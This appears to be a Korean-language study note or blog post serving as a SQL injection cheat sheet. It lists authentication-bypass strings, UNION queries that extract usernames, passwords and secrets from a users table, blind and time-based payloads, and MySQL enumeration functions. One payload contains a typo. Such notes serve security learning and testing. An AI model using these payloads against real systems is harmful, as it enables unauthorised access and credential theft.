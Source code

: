 ```yaml
---
title: SQL Injection 
date: 2020-11-15 19:49:08
tags:
- SQL Injection
category:
- Web
---
```


## SQL Injection

### 인증 우회

- 인증 쿼리 질의문
`Select * from members where id='' and pass=''`

- `' or 1=1 #`
- `' or 'x'='x`
- `" or "x"="x`
- `') or ('x'='x`
- `") or ("x"="x`

### Error Based

- `0' union select all 1,concat(id,login,password),3,4,concat(email,secret),6,7 from users#`
- `0' union select all 1,2,3,4,5 #` 
- `' union select all 1,2,3,4,5,6,7,8,9,10,11#`
- `' union select all 1,2,database(),4,5,6,7#`
- `' union select all 1,2,table_name,4,5,6,7,8 from information_schema.tables#`
- `' union select all 1,2,column_name,4,5,6 from information_schema.columns where table_name='users'#`
- `' order by 10#` : 컬럼 개수 알아내기 컬럼 개수가 크면 에러가 나온다

UNION SELECT ALL 다음 컬럼 값은 앞선 질의문의 쿼리문의 개수와 같아야한다. 

### Blind 

- `' or 1=1 and length(database())=5#`
- `' or 1=1= and substring(database(),1,1)='b'#`
- `' or 1=1 and ascii(substring(database(),1,1))=98#`

'참'과 '거짓'의 결과만으로 결과를 얻어낸다.

### Time Based

- `' or 1=1 and sleep(5)#`

sleep()함수를 이용해서 시간을 비교해서 원하는 결과를 얻는 방법, 하지만 시간도 많이 걸리고 제일 마지막에 시도하는 방법이다.


## SQL Injection Cheat Sheet

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

## My SQL Injection에 기본적으로 알아야 할 것들

- @@version
- information_schema.tables
  - table_name
- information_shcema.columns
  - column_name
- database()
- length()
- substring(문자열,시작,개수)
- ascii()
- limit 시작,개수 : 컬럼을 하나씩 가져오기위해 사용


